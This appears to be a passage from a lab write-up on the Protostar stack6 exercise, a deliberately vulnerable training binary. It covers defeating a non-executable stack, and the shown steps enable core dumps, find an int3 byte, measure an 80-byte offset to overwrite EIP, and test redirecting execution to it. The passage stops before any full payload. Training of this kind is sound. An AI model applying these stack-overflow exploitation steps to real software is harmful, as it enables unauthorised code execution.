 So now the game is somewhat harder, we need to defeat the NX-stack. There are two ways to do this, and I did both just to check that I could. The first way is by returning to a libc function of choice, and the broader category is known as ret2libc attacks. When this is not possible, you can result to crafting a Return-Oriented Programming (ROP) payload, but this is considerably harder and more time consuming.

Both of these techniques assume that ASLR [5] is not enabled (and from now on we will assume it to be true for the rest of the article).

## Exploitation
### Setup 

To make things easier for us, we need to do two things:
* enable coredumps -> `$ ulimit -c unlimited`
* enable coredumps for SUID binaries -> `# echo 2 >/proc/sys/fs/suid_dumpable`
* find a debugging instruction -> `0xCC`

These will allow us to inspect the process as it crashes or hits a breakpoint, allowing us to verify our logic step by step. Debugger interrupt is `int 3` or `0xCC`, and we can look for one using `objdump`:

```
$ objdump -s ./stack6 | grep -e cc
8048248 1a000000 cc850408 04000000 11001000  ................
                 ^- here
```

Bingo, we were lucky found a break point on `0x0804824c`. Conveniently, this is in the `.text` section of the binary, so we should be able to call it without issues. 

Now we need to make our binary crash, and by trying a few different offsets we find that `80` bytes of padding are enough for the next `4` bytes to overwrite EIP:

```bash
$ python -c 'print "A" * 80 + "BBBB"' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB
Segmentation fault (core dumped)
root@protostar:/opt/protostar/bin# gdb -q ./stack6 /tmp/core.11.stack6.1562 
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

Testing our breakpoint: 
```bash
$ python -c 'print "A" * 80 + "\x4c\x82\x04\x08"' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALAAAAAAAAAAAAL�
Trace/breakpoint trap (core dumped)
root@protostar:/opt/protostar/bin# gdb -q ./stack6 /tmp/core.5.stack6.1566 
Program terminated with signal 5, Trace/breakpoint trap.
#0  0x0804824d in ?? ()
(gdb) x/i $eip-1
0x804824c:	int3 
```
